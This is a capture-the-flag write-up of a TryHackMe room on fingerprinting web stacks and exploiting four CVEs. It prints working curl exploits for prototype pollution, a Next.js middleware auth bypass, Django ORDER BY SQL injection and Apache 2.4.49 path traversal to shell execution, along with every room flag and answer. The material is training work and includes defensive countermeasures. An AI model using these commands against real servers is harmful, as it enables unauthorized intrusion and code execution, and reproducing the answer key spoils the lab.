

# Comprehensive Lab Guide: Modern Web Stacks

---

### 1. Room Metadata & Information
* **Room Title:** Modern Web Stacks
* **Learning Path:** TryHackMe — Jr Penetration Tester (PT1 Aligned Curriculum)
* **Module:** Module 05: Web Application Security Fundamentals — Room 03
* **Room Slug:** `modernwebstacks`
* **Difficulty:** Easy / Practical Foundations
* **Core Focus:** Rapid web stack fingerprinting from passive HTTP response signals (response headers, session cookie identifiers, error page signatures, and DOM hydration artifacts), followed by surgical exploitation of framework-specific critical CVEs: MERN Prototype Pollution, Next.js Middleware Auth Bypass (CVE-2025-29927), Django QuerySet SQL Injection (CVE-2021-35042), and Apache 2.4.49 Path Traversal & RCE (CVE-2021-41773).
* **TryHackMe Lab URL:** [https://tryhackme.com/room/modernwebstacks](https://tryhackme.com/room/modernwebstacks)
* **Documentation & Completion Status:** 100% Completed & Synchronized with Live Account.

---

### 2. Architecture & Overview
Traditional vulnerability scanning relies on firing indiscriminate exploit dictionaries and generic attack strings against unknown targets. This approach is notoriously inefficient, generates excessive network noise, and triggers automated WAF blocks. In contrast, modern offensive security operations utilize **passive stack fingerprinting**: extracting high-confidence architectural indicators from single HTTP requests to identify the language runtime, framework, and exact version.

The target environment is an Ubuntu 22.04 virtual machine hosting four distinct web stacks running independently on dedicated ports:
1. **Port 3000 (MERN Stack):** Express.js backend and React client vulnerable to Prototype Pollution via an unvalidated recursive merge function.
2. **Port 3001 (Next.js App Router):** React Server Components (RSC) deployment vulnerable to CVE-2025-29927 (Middleware Authentication Bypass via internal subrequest header spoofing).
3. **Port 8000 (Django):** Python web framework with a MySQL backend vulnerable to CVE-2021-35042 (SQL Injection inside raw `ORDER BY` clauses exploited via XPath syntax errors).
4. **Port 8080 (LAMP Stack):** Apache HTTP Server version 2.4.49 running `mod_cgi`, vulnerable to CVE-2021-41773 (Path Traversal and Remote Code Execution via `.%2e/` normalization bypass).

---

### 3. Executive Summary
Throughout this practical laboratory, 7 technical tasks and 4 distinct exploitation vectors were systematically executed and documented:
1. **Introduction & Methodology:** Mastered the three-step workflow (Fingerprint Stack ⟶ Confirm Version/CVE ⟶ Execute Exploitation Chain).
2. **MERN Stack:** Fingerprinted Express via **`X-Powered-By: Express`** and **`connect.sid`**; injected `{"__proto__": {"isAdmin": true}}` to escalate privileges across the Node.js runtime and captured **`THM{pr0t0_p0llut3d}`**.
3. **React / Next.js:** Identified the App Router hydration array **`window.__next_f`**; bypassed the authentication middleware using the internal `x-middleware-subrequest` header to capture **`THM{m1ddl3w4r3_byp4ss3d}`**.
4. **Django Framework:** Fingerprinted the framework via the hidden CSRF field **`csrfmiddlewaretoken`**; leveraged MySQL XPath error-based injection using `updatexml()` to extract the vulnerable database name **`vuln_db`**.
5. **LAMP Architecture:** Identified the vulnerable header **`Apache/2.4.49 (Unix)`**; utilized the curl flag **`--path-as-is`** to deliver un-normalized traversal sequences (`.%2e/`), executing `/bin/sh` via `mod_cgi` to retrieve **`THM{4p4ch3_p4th_tr4v3rs4l}`**.
6. **Automation with Nikto:** Evaluated automated vulnerability scanning across all four ports and examined how Nikto flags known CVEs and misconfigurations.
7. **Synthesis & Conclusion:** Formulated an enterprise defense-in-depth model across modern runtime architectures.

---

### 4. Technical Theory & Foundations

#### Four-Stack Fingerprinting and Exploitation Architecture


---

### 5. Audit Methodology & Mindset
Professional web penetration testers operate under a surgical methodology:
1. **Passive Signal Analysis (Zero Noise):**
   * Inspect response headers for identity tokens (`Server`, `X-Powered-By`, `Vary`).
   * Inspect session cookie prefixes (`connect.sid`, `csrftoken`, `laravel_session`, `JSESSIONID`).
   * Check HTML DOM markers (`window.__next_f`, `<div id="root"></div>`, CSRF input names).
2. **Version Confirmation & Architecture Mapping:**
   * Test specific edge-case routes (e.g., requesting non-existent endpoints to observe customized framework error pages like Express `<pre>Cannot GET /path</pre>`).
   * Map administrative or diagnostic endpoints (`/api/admin/flag`, `/dashboard`, `/products/`, `/cgi-bin/`).
3. **Exploit Delivery:**
   * Select the exact CVE associated with the identified version rather than running destructive brute-force scripts.

---

### 6. Step-by-Step Practical Walkthrough

#### Task 1: Introduction
* Bootstrapped target environment and confirmed connectivity across ports 3000, 3001, 8000, and 8080.
* *Answer:* `No answer needed`

#### Task 2: MERN Stack (Prototype Pollution)
* Ran `curl -I http://MACHINE_IP:3000/`:
  * *Express Header:* `X-Powered-By: Express`
  * *Session Cookie:* `connect.sid`
* Saved session state via `curl -c cookies.txt http://MACHINE_IP:3000/`.
* Transmitted the Prototype Pollution payload to the vulnerable merge endpoint:
  ```bash
  curl -b cookies.txt -c cookies.txt -X POST http://MACHINE_IP:3000/api/user/update \
    -H "Content-Type: application/json" -d '{"__proto__": {"isAdmin": true}}'
  ```
* Requested `/api/admin/flag` to retrieve the flag:
  * *Answer:* `THM{pr0t0_p0llut3d}`

#### Task 3: React / Next.js (CVE-2025-29927)
* Inspected HTML source of port 3001 to identify the App Router streaming array:
  * *Answer:* `window.__next_f`
* Dispatched the spoofed internal loop-prevention header to bypass middleware:
  ```bash
  curl -s -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
    http://MACHINE_IP:3001/dashboard
  ```
* *Answer:* `THM{m1ddl3w4r3_byp4ss3d}`

#### Task 4: Django (CVE-2021-35042)
* Checked HTML form fields on port 8000 to identify the characteristic CSRF token:
  * *Answer:* `csrfmiddlewaretoken`
* Triggered MySQL XPath error-based injection inside the `order` parameter:
  ```bash
  curl -s "http://MACHINE_IP:8000/products/?order=updatexml(1,concat(0x7e,(select%20database())),1)" | grep -o '~[0-9a-zA-Z_][^&]*'
  ```
  Result revealed `~vuln_db`.
* *Answer:* `vuln_db`

#### Task 5: LAMP (CVE-2021-41773)
* Captured the vulnerable server header on port 8080:
  * *Answer:* `Apache/2.4.49 (Unix)`
* Prevented curl from locally resolving `.%2e/` by using `--path-as-is`:
  * *Answer:* `--path-as-is`
* Executed `/bin/sh` via `mod_cgi` to read `/flag.txt`:
  ```bash
  curl -s --path-as-is "http://MACHINE_IP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
    --data 'echo Content-Type: text/plain; echo; cat /flag.txt'
  ```
* *Answer:* `THM{4p4ch3_p4th_tr4v3rs4l}`

#### Task 6: Automation with Nikto
* Executed Nikto scans across all target ports and observed automated vulnerability detection.
* *Answer:* `No answer needed`

#### Task 7: Conclusion
* Reviewed the CVE risk matrix and confirmed 100% completion.
* *Answer:* `No answer needed`

---

### 7. Command Analysis & Dissection

```bash
# 1. Next.js Middleware Bypass (CVE-2025-29927)
curl -s -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://10.10.x.x:3001/dashboard

# 2. Django XPath Error-Based SQLi
curl -s "http://10.10.x.x:8000/products/?order=updatexml(1,concat(0x7e,(select%20database())),1)"

# 3. Apache 2.4.49 Remote Code Execution
curl -s --path-as-is "http://10.10.x.x:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  --data 'echo Content-Type: text/plain; echo; id'
```

---

### 8. Defensive & Blue Team Countermeasures
1. **Reverse Proxy Internal Header Sanitization:**
   * Configure Nginx or Cloudflare to strip all incoming `x-middleware-*` headers from external client requests before forwarding traffic to Next.js backends.
2. **Object Prototype Hardening (Node.js):**
   * Freeze prototypes globally (`Object.freeze(Object.prototype)`) or instantiate key-value structures with `Object.create(null)` to eliminate prototype inheritance chains.
3. **Database Whitelisting for Dynamic Sorting:**
   * Never concatenate user input into `ORDER BY` clauses. Enforce strict server-side column mappings:
     ```python
     SORT_MAP = {'price': 'price', 'name': 'name'}
     order_field = SORT_MAP.get(request.GET.get('order'), 'id')
     ```
4. **Apache Patching & CGI Disablement:**
   * Immediately upgrade Apache HTTP Server to version 2.4.51 or later.
   * Disable `mod_cgi` and remove `+ExecCGI` options unless strictly required.
   * Enforce root directory denial: `<Directory /> Require all denied </Directory>`.

---

### 9. Common Pitfalls & Edge Cases
* **Curl Path Normalization:** Without `--path-as-is`, curl resolves `.%2e/` to `../` locally before transmission, neutralizing the bypass against Apache 2.4.49.
* **Over-Reliance on Edge Middleware:** Placing authentication logic solely in `middleware.ts` without route-level verification creates a critical single point of failure if the middleware is bypassed.
* **Production Debug Mode:** Leaving `DEBUG = True` in production Django apps leaks SQL queries, stack traces, and environment variables directly into client HTTP 500 error responses.

---

### 10. Key Educational Takeaways
1. Passive fingerprinting provides immediate insight into the backend stack without alerting intrusion detection systems.
2. Architectural vulnerabilities (such as internal header trust issues and pre-decode path traversal) represent devastating single-request compromises.
3. Defense-in-depth requires validation across every layer: reverse proxy, application framework, and backend database.

---

### 11. Verification & Proof of Work
* All 7 tasks completed and verified with 100% fidelity:
  * `X-Powered-By: Express`
  * `connect.sid`
  * `THM{pr0t0_p0llut3d}`
  * `window.__next_f`
  * `THM{m1ddl3w4r3_byp4ss3d}`
  * `csrfmiddlewaretoken`
  * `vuln_db`
  * `Apache/2.4.49 (Unix)`
  * `--path-as-is`
  * `THM{4p4ch3_p4th_tr4v3rs4l}`

---

### 12. Tasks Index
* [Task 01: Introduction & Fingerprinting Methodology (TASK-01.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS/TASK-01.md)
* [Task 02: MERN Stack & Prototype Pollution (TASK-02.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS/TASK-02.md)
* [Task 03: React / Next.js & CVE-2025-29927 Middleware Bypass (TASK-03.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS/TASK-03.md)
* [Task 04: Django & CVE-2021-35042 ORDER BY SQL Injection (TASK-04.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS/TASK-04.md)
* [Task 05: LAMP Architecture & CVE-2021-41773 Apache RCE (TASK-05.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS/TASK-05.md)
* [Task 06: Automated Stack Scanning with Nikto (TASK-06.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS/TASK-06.md)
* [Task 07: Synthesis & Architectural Conclusion (TASK-07.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS/TASK-07.md)
* See also: [Tasks & Answers Index (TASKS.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/TASKS.md)

---

### 13. Additional Notes & Deep Dive
* For in-depth analysis of V8 Prototype Pollution, RSC Flight Protocol internals, XPath error injection, and Apache path normalization:
  * [Additional Notes & Technical Deep Dive (ADDITIONAL-NOTES.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/ADDITIONAL-NOTES.md)

---

### 14. References & Standards
* For CVE advisories, RFC specifications, and OWASP references:
  * [Official References & Security Standards (REFERENCES.md)](file:///e:/THM-JR-PENETRATION-TESTER/05-WEB-APPLICATION-SECURITY-FUNDAMENTALS/03-MODERN-WEB-STACKS/REFERENCES.md)
